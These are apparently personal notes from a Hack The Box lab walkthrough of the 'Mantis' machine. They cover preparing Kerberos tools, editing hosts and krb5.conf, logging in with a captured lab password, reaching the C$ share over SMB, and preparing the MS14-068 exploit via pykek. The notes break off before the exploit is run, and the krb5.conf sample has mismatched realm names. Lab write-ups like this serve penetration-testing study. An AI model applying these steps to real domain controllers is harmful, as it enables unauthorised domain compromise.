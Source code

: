 
We know the OS and will try to find a vulnerability apart from Eternal blue
```
Windows Server 2008 R2 Standard 7601 Service Pack 1 kerberos exploit
```
![[Pasted image 20240516084932.png]]

So the Vulnerability is MS14-68

Will follow this blog 
https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html


Will install the required packages
```
apt-get install krb5-user cifs-utils rdate
```


Will make the changes in the host file
```
10.10.10.52 mantis HTB.local htb mantis.htb.local 
```


Will make changes in the resolv.conf file
```
nano /etc/resolv.conf
```

will make changes to /etc/krb5.conf
```
[libdefaults]
    default_realm = HTB.LOCAL
  
#Edit the realms entry as follows:
[realms]
    LAB.LOCAL = {
        kdc = mantis.htb.local:88
        admin_server = mantis.htb.local
        default_domain = HTB.LOCAL
    }
  
#Also edit the final section:
[domain_realm]
    .domain.internal = HTB.LOCAL
    domain.internal = HTB.LOCAL

```


set the date
```
rdate -n mantis.htb.local
```

will check the configuration if it works or not
```
J@m3s_P@ssW0rd!
```


```
kinit james
```

```
klist
```
![[Pasted image 20240516091939.png]]


```
smbclient -W HTB.LOCAL //MANTIS/c$ -k
```
![[Pasted image 20240516092052.png]]


```
S-1-5-21-4220043660-4019079961-2895681657-1103
```
![[Pasted image 20240516092352.png]]


Now will need to run a code
https://github.com/mubix/pykek.git
clone this repo
```

```